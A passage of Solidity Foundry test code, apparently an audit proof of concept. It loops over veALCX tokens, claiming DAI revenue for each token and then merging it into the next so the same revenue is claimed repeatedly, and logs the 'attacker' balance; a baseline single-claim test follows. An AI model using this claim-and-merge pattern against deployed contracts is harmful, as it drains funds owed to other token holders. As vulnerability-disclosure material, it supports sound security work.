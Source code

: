 ```
        for (uint256 i = 0; i < count-1; ++i) {
            
            revenueHandler.checkpoint();
            console2.log("i: %s", i);
            tokenId1 = tokenIds[i]; 
            tokenId2 = tokenIds[i+1]; 
            claimable = revenueHandler.claimable(tokenId1, dai);
            console2.log("claimable: %s", claimable);
            revenueHandler.claim(tokenId1, dai, address(0x00), claimable, address(this));
            veALCX.merge(tokenId1, tokenId2);

        }
        
        revenueHandler.checkpoint();
        claimable = revenueHandler.claimable(tokenIds[count-1], dai);            
        console2.log("claimable: %s", claimable);
        revenueHandler.claim(tokenIds[count-1], dai, address(0x00), claimable, address(this));
        console2.log("Balance of the attacker: %s",IERC20(dai).balanceOf(attacker));
    }

    function testClaimRevenueMerge_Normal() external {
        // Setup the scenario when PoolAdapter is zero 
        address owner = revenueHandler.owner();
        hevm.prank(owner);
        revenueHandler.setPoolAdapter(dai, address(0x00));
        hevm.stopPrank();
        // Start of the test case
        uint256 revAmt = 1000e18; // Revenue is 1000 DAI 
        address attacker = address(this);        
        address Alice = address(0x11223344); 
        address Bob = address(0x55667788);
        uint256 tokenId1 = createVeAlcx(attacker, 10*TOKEN_1, 4 weeks, false);        
        uint256 tokenId3 = createVeAlcx(Alice, 90*TOKEN_1, 4 weeks, false);        
      
        _accrueRevenueAndJump1Epoch(revAmt);

        console2.log("Balance of the revenueHandler: %s",IERC20(dai).balanceOf(address(revenueHandler)));
        console2.log("Choose the block.timestamp to be exact time that have modulo WEEK equal to 0"); 
        hevm.warp((block.timestamp / WEEK) * WEEK + WEEK );
        console2.log("Current block.timestamp: %s", block.timestamp);
        revenueHandler.checkpoint();

        uint256 claimable = revenueHandler.claimable(tokenId1, dai);        
        
        console2.log("claimable: %s", claimable);        
        console2.log("Balance of the attacker: %s",IERC20(dai).balanceOf(attacker));
        console2.log("Current block.timestamp: %s", block.timestamp);
        revenueHandler.claim(tokenId1, dai, address(0x00), claimable, address(this));        
        console2.log("Balance of the attacker: %s",IERC20(dai).balanceOf(attacker));
    }
```
